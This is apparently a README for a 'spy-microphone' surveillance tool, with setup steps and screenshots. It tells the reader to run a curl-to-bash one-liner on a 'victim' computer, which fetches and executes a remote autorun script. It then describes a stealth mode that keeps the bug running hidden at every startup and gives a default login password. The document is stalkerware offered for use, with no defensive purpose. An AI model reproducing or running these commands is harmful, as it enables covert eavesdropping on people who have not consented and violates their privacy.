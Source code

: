 
   For use spy-microphone please follow instructions <br><br>

   Easy remote command for spy <br>
   Open the terminal of any computer want to spy and run this: <br>
   bash <(curl -s https://raw.githubusercontent.com/makdosx/spy-microphone/master/shell/autorun.sh) <br><br>

    i) Run the file autorun.sh in  the computer of victim and set your params 
       Stealth Mode <br>
         With this feature the bug will continue if it works whenever the victim opens the computer 
         automatically by running in the background.
         
  ii) import the sql file in to your database 


  iii) The spy-microphone ready to use 
  
   Default password for login is: spymic

![7](png/7.png) <br> <br> <br> 

![2](png/2.png) <br> <br> <br> 

![3](png/3.png) <br> <br> <br> 

![4](png/4.png) <br> <br> <br> 

![6](png/6.png) <br> <br> <br> 

![0](png/0.jpg) 
